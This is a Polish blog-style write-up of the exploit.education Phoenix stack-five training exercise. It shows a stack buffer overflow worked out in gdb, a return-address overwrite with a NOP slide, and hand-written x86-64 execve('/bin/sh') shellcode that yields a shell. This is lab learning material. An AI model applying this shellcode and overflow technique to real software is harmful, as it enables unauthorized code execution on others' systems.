 ```yaml
---
title: "Phoenix: Stack Five - czyli jak spędzić pół roku nad jednym crackme"
category: pl
tags: binary-exploitation
---
```


*Gdybym miałbym wybrać pracę   
za dowolnie jaką płacę   
chciałbym zostać pentesterem   
hackować NASA moim tosterem*

Jak to piszę jest godzina 23:33 zimowego czasu polskiego - poszedłbym już 
sobie słodko spać gdyby nie fakt, że mam już prawie ukończone hackme, które
jest moim nemesis - stack5 ze Phoenix (exploit-education). Tego wyzwania podjąłem
się praktycznie zaraz po dowiedzeniu się o nim z jednego z tutoriali LiveOverflow,
czyli jakieś pół roku temu. Nie potrafiąc rozwiązać zadania, rzuciłem je. Teraz,
kiedy wzięło mnie na uczenie się assemblera x86-64, postanowiłem ponownie podejść
do zadania. 

```
Welcome to phoenix/stack-five, brought to you by https://exploit.education
If you’re happy and you know it, segmentation fault. If you’re happy and you know it, segmentation fault. If you’re happy and you know it, and you really want to show it, if you’re happy and you know it, segmentation fault.

Segmentation fault
```

Mając odrobinę wiedzy więcej niż wcześniej, zacząłem od stworzenia
prostego skryptu w pythonie, który generował by mi ciąg kolejnychliter 
alfabetu w zależności od podanej długości

```python
#!/usr/bin/python

import sys
alphabet = 'abcdefghijklmnopqrstuvwyzABCDEFGHIJKLMNOPQRSTUVWYZ'

num = int(sys.argv[1])

for c in alphabet[:num]:
    sys.stdout.write(c*8)
```

Pozwoli mi to łatwo zobaczyć, gdzie są umieszczane dane na stosie.
Jak widać, nie jest to coś skomplikowanego, ale na tą potrzebę starcza.

```
./alphabet.py 16 | ./amd64/stack-five
Segmentation fault
./alphabet.py 15 | ./amd64/stack-five
```

Program się nie wykrzaczył - zapiszę sobie output do jakiegoś pliku,
żeby w vimie przy pomocy `:%!xxd` sobie później dopisać potrzebne dane.

```
mkdir stack5
./alphabet.py 15 > stack5/payload
```

Szybki teścik - `./amd64/stack-five < stack5/payload` działa.
Pora na najlepszego przyjaciela programisty - debuggera. Debugując już `stack-five` 
poraz n-ty, (gdzie n jest liczbą większą od liczby odcinków *Mody na Sukces*) wiem, 
że instrukcja po wywołaniu `gets()` ma adres `start_level+20`

```
(gdb) b *start_level+20
Breakpoint 1 at 0x4005d1
(gdb) r < stack5/payload 
Starting program: /opt/phoenix/amd64/stack-five < stack5/payload
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004005d1 in start_level ()
(gdb) x/18xg $rsp
0x7fffffffe5b0:	0x6161616161616161	0x6262626262626262
0x7fffffffe5c0:	0x6363636363636363	0x6464646464646464
0x7fffffffe5d0:	0x6565656565656565	0x6666666666666666
0x7fffffffe5e0:	0x6767676767676767	0x6868686868686868
0x7fffffffe5f0:	0x6969696969696969	0x6a6a6a6a6a6a6a6a
0x7fffffffe600:	0x6b6b6b6b6b6b6b6b	0x6c6c6c6c6c6c6c6c
0x7fffffffe610:	0x6d6d6d6d6d6d6d6d	0x6e6e6e6e6e6e6e6e
0x7fffffffe620:	0x6f6f6f6f6f6f6f6f	0x00007fffffffe600
0x7fffffffe630:	0x00007fffffffe650	0x00000000004005f7
(gdb) 
```

Widać tutaj wyraźnie input i trzy jakieś liczby.
Pierwszy wskazuje jakoś na końcówkę bufora, drugi jest wartością poprzedniego
adresu podstawy ramki, trzeci jest adresem powrotu do `main()`.

Po zastąpieniu pierwszej na 0x4141414141414141 (czytaj: 'AAAAAAAA') w sumie nic
ważnego się nie dzieje - niby jest segfault, ale dopiero pod koniec maina.
Następną wartość trzeba by było zmienić na coś sensownego - w przeciwnym wypadku
w trakcie wychodzenia z `start_level` pojawi się znowu segfault. Najlepiej najbliższym
adresem na stos.
Adres powrotu - gwóźdź programu - trzeba nakierować na shellcode, którego wpisaliśmy,
czyli na stos. 

Mechanikę zjeżdżalni można użyć tutaj - zamiast
dokładnego adresu shellcode'u, wstawić adres środka sporego ciągu instrukcji NOP,
na którego końcu jest nasz kod. Mówi się, że NOP nic nie robi, ale pamiętajcie, że
wskaźnik instrukcji sam się nie zinkrementuje. Na końcu tej 'zjeżdżalni' będzie
xCC, czyli instrukcja breakpoint - ta magiczna wartość, która przerywa działanie
programu i oddaje go debuggerowi (no chyba, że go nie ma, wtedy proces jest po
prostu zabijany :> ).
`:%!xxd -r`, `:w` i jedziemy dalej

```
Starting program: /opt/phoenix/amd64/stack-five < stack5/payload
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004005d1 in start_level ()
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0x00007fffffffe680 in ?? ()
(gdb) 
```

Czuję się niczym magik, mimo, że nie zrobiłem niczego odkrywczego. Co się
stanie gdy będę chciał odpalić ten program poza debuggerem?

`:!./amd64/stack-five < stack5/payload`
```
Welcome to phoenix/stack-five, brought to you by https://exploit.education
/bin/bash: line 1:   603 Trace/breakpoint trap   ./amd64/stack-five < stack5/payload

shell returned 133

Press ENTER or type command to continue
```

Do szczęścia potrzeba tak niewiele :)
Nadszedł czas na amunicję grubego kalibru - własny shellcode. Dlatego, że
mam obraz Phoenix w wersji x86-64, muszę też stworzyć 64-bitową binarkę.

```
bits 64

call  LULZ
db    "/bin/sh", 0
LULZ:
mov   rax, 59
pop   rdi
xor   rsi, rsi
xor   rdx, rdx
syscall
```

Dla niewtajemniczonych:   
`call LULZ` wrzuca na stos adres rzeczy, która jest zaraz za nim i robi skok do LULZ,  
`mov rax, 59` execve() jest numerem odwołaniem systemowym numer 59  
`pop rdi` poprzednio wrzucony "/bin/sh" na stos zostaje zdjęte do rejestru rdi  
`xor rsi, rsi` zerowanie rejestru   
`syscall` - magia

`:!yasm shellcode.asm`
`:read shellcode`
Trzeba pamiętać jeszcze o usunięciu kodu xCC i znaku nowej linii

`r < stack5/payload`
```
Starting program: /opt/phoenix/amd64/stack-five < stack5/payload
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004005d1 in start_level ()
(gdb) c
Continuing.
process 614 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
[Inferior 1 (process 614) exited normally]
```

Próba poza gdb niestety zakończyła się niepowodzeniem. Prawdopodobnie zbyt mała
zjeżdżalnia albo zła wartość powrotu. Ale na tym się zatrzymałem za pierwszym
podejściem w tamtym roku, teraz MUSZĘ to zrobić!  
Druga próba - illegal instruction. Coś mi mówi, że jestem blisko.   
Trzecia próba - przesło gładko. Zwiększyłem długość nop slide i troszkę
skorygowałem adres powrotu. NARESZCIE!

```
svu@unassigned:~$ (cat stack5/payload; cat) | ./amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education

whoami
phoenix-amd64-stack-five
id
uid=1000(svu) gid=1000(svu) euid=405(phoenix-amd64-stack-five) egid=405(phoenix-amd64-stack-five) groups=405(phoenix-amd64-stack-five),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),1000(svu)
```

~~hmm... powłoka działa, ale program `stack-five` jest ma setuid, czyli ustawia
proces uruchamia się jako root, czyli powłoka też powinna być roota.~~
Nevermind, tak było w poprzedniku Phoenixa, czyli Protostar, teraz uid jest po
uruchomieniu programu ustawione na `phoenix-amd64-stack-five`

I tak, wiem, że zamiast   
`(cat stack5/payload; cat) | ./amd64/stack-five` mogłem napisać   
`cat stack5/payload - | ./amd64/stack-five`

*[\*LiveOverflow music plays\*](https://youtu.be/HSlhY4Uy8SA?t=729)*

<<EOF
